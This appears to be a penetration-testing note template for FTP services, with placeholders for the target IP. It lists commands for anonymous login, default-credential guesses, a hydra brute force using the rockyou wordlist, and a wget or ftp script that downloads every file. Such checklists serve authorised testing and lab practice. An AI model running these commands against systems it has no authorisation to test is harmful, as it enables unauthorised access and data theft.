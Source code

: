 # FTP - <% tp.frontmatter.current_port %>
## Anonymous login
```bash
ftp ftp://anonymous:anonymous@<% tp.frontmatter.target_ip %>
```

## user/password guesses
```bash
ftp ftp://admin:password@<% tp.frontmatter.target_ip %>
```

```bash
ftp ftp://admin:password@<% tp.frontmatter.target_ip %>
```

**If you have a username, try there username as the password**

## Brute force user
**If you have a username**
```bash
hydra -l <user> -P /usr/share/wordlists/rockyou.txt ftp://<% tp.frontmatter.target_ip %>
```

## Download EVERYTHING

```bash
wget -m --user=username --password=password ftp://<% tp.frontmatter.target_ip %>
```

**Script of you don't want to use wget**
```bash
#! /bin/bash

ftp -n << 'EOF'
open <% tp.frontmatter.target_ip %>
quote USER your_username_here
quote PASS your_password_here
prompt no
mget * .
bye
EOF
```
